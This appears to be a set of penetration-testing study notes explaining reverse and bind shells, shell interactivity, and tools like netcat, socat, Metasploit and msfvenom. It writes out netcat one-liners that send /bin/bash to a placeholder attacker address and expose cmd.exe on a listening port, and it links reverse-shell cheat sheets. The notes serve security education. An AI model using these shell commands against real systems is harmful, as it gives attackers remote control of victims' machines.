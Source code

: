 ## What is a shell?
- In the simplest possible terms, shells are what we use when interfacing with a Command Line environment (CLI).
- In other words, the common bash or sh programs in Linux are examples of shells.

**reverse shell** -
- Reverse shells are when the target is forced to execute code that connects _back_ to your computer.
- Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell.

**Example** - 
- On the left we have a reverse shell listener -- this is what receives the connection.
- On the right is a simulation of sending a reverse shell.

On the attacking machine:
`sudo nc -lvnp 443`

On the target:
`nc <LOCAL-IP> <PORT> -e /bin/bash`
![[shells1.png]]
- Notice that after running the command on the right, the listener receives a connection.
- The important thing here is that we are _listening_ on our own attacking machine, and sending a connection _from_ the target.

**bind shell** - 
- Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on the target.
- This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way.
- This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

**Example** - 
- on the left we have the attacker's computer, on the right we have a simulated target.
- First, we start a listener on the target -- this time we're also telling it to execute `cmd.exe`. Then, with the listener up and running, we connect from our own machine to the newly opened port.
On the target:
`nc -lvnp <port> -e "cmd.exe"`  

On the attacking machine:
`nc MACHINE_IP <port>`
![[shells2.png]]
The important thing to understand here is that we are _listening_ on the target, then connecting to it with our own machine.

### interactivity
1. **Interactive:**
	- If you've used Powershell, Bash, Zsh, sh, or any other standard CLI environment then you will be used to interactive shells.
	- These allow you to interact with programs after executing them.
**Example** - 
SSH login prompt:
![[shells3.png]]
- Here you can see that it's asking _interactively_ that the user type either yes or no in order to continue the connection.
- This is an interactive program, which requires an interactive shell in order to run.

2. **Non-Interactive:**
	- _Non-Interactive_ shells don't give you that luxury.
	- In a non-interactive shell you are limited to using programs which do not require user interaction in order to run properly.
	- Unfortunately, the majority of simple reverse and bind shells are non-interactive, which can make further exploitation trickier.
	- what happens when we try to run SSH in a non-interactive shell:
![[shells4.png]]
Notice that the `whoami` command (which is non-interactive) executes perfectly, but the `ssh` command (which _is_ interactive) gives us no output at all.
**Note** - 
1. interactive programs do not work in non-interactive shells.
2. `listener` is an alias of `sudo rlwrap nc -lvnp 443`

## Tools
1. **Netcat:**
	- It is used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration, it can also be used to receive reverse shells and connect to remote ports on a target system.
	- Netcat shells are very unstable (easy to lose) by default, but can be improved by techniques.

2. **Socat:**
	- It can do all of the same things, and _many_ more. Socat shells are usually more stable than netcat shells.
	- however, there are two big catches:
		1. The syntax is more difficult
		2. Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.

3. **Metasploit -- multi/handler:**
	- The `exploit/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells.
	- t's also the only way to interact with a _meterpreter_ shell, and is the easiest way to handle _staged_ payloads.

4. **Msfvenom:**
	- msfvenom can generate payloads other than reverse and bind shells.
	- Some repositories of shells are [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).The PentestMonkey [Reverse Shell Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) is also commonly used.
	- webshells located at `/usr/share/webshells` in kali linux.